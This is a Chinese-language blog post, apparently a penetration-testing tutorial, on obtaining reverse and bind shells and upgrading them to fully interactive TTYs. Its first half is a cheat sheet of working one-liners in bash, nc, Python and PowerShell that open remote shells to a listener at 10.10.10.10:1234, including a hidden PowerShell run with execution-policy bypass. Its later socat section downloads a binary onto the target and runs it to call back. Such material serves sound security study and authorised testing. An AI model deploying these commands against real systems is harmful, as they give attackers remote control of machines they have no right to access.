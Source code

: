 ```yaml
---
title: "掌控全局：反弹 Shell 升级为全交互式 TTY"
date: 2024-05-25
tags:
  - Linux
categories:
  - Web 安全
---
```


为了更好的攻击体验和效率。

<!--more-->

## 常见的获取 shell 方式

更多方式请参考 https://www.revshells.com 。

### Reverse shell

直接使用 bash：

```bash
bash -i >& /dev/tcp/10.10.10.10/1234 0>&1
```

在程序使用 `sh -c` 运行命令时可能不支持上面的部分 bash 语法，因此可以套一层 bash：

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

直接使用 nc：

```bash
nc 10.10.10.10 1234 -e bash
```

nc 不支持 `-e` 时借助管道：

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

使用 Python：

```bash
export RHOST="10.10.10.10";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

Windows 上使用 Powershell：

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Bind shell

使用 nc：

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -lvp 1234 >/tmp/f
```

使用 Python 3：

```bash
python3 -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();
while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Windows 上使用 Powershell：

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

## Simple shell 的问题

通过上述方式获得的 Simple Shell 通常存在诸多问题，最大的问题就是按下 Ctrl+C 时不会像我们预期的那样停止 Shell 内运行的程序，而是停止了 Shell 本身。除此之外，其他问题包括：

- 无法运行需要终端的程序，例如 `su` 和 `ssh` 等
- 无法使用交互式程序，例如 `vim` 等
- 无法使用 Tab 补全
- 无法按上箭头回溯命令历史
- 无法使用左右箭头移动光标
- 无法使用终端快捷键，例如 Ctrl+L 清屏等
- 通常不显示 STDERR

## 升级为半交互式伪终端

### 使用 Python

在主机上有 Python 的情况下（使用 `which python python2 python3` 检测，有一个就行），我们可以快速创建一个伪终端，使得需要终端的程序能够运行，如果只是需要用 `su` 等命令来提权的话这样会很方便：

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

注意视情况替换 `python` 为 `python2` 或 `python3` 等。但这样依然无法正常处理 Ctrl+C，也无法解决上述其他问题。

### 使用 script

很多容器内是没有 Python 的，这时我们可以借助 Linux 自带的 `script` 程序来达到同样的效果：

```bash
$ script -qc /bin/bash /dev/null
```

## 升级为全交互式 TTY

### 使用 stty

这个方法仅适用于 bash，使用其他 shell 时可以先切换到 bash 再设置 nc 监听。我们还是先使用上述两种方法之一创建伪终端，然后通过 Ctrl+Z 把 shell 挂起。在主机上继续运行：

```bash
$ stty raw -echo;fg
```

此时升级为 TTY 的 shell 已经来到前台，在 shell 内运行 `reset` 即可获得全交互式的 shell。我们还可以对这个全交互式 shell 的样式进行一些调整，让它使用和我们终端相同的配色和大小：

```bash
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <rows> columns <cols>
```

上面的 `rows` 和 `cols` 具体值可以通过在主机上运行 `stty size` 获取到。

### 使用 socat

我们也可以使用 socat 直接生成一个全交互式 TTY，在 [这里](https://github.com/andrew-d/static-binaries) 可以下载到二进制文件。

首先在我们的主机上运行：

```bash
$ socat file:`tty`,raw,echo=0 tcp-listen:1234
```

随后在靶机上运行：

```bash
$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:1234
```

这个方法看似操作起来最简单，但需要在靶机上植入额外文件，还需要靶机能成功访问 GitHub 下载二进制文件，比较麻烦。然而，在 Windows 上升级终端的方式非常有限，常常不得不使用这种方式，此时使用的 [二进制文件](https://github.com/3ndG4me/socat) 以及命令都会有一些区别。

首先在我们的主机上运行：

```bash
$ socat TCP4-LISTEN:1234,fork STDOUT
```

随后在靶机上运行：

```cmd
socat.exe TCP4:10.10.10.10:1234 EXEC:'cmd.exe',pipes
```

## 参考资料

1. [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
2. [Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell)
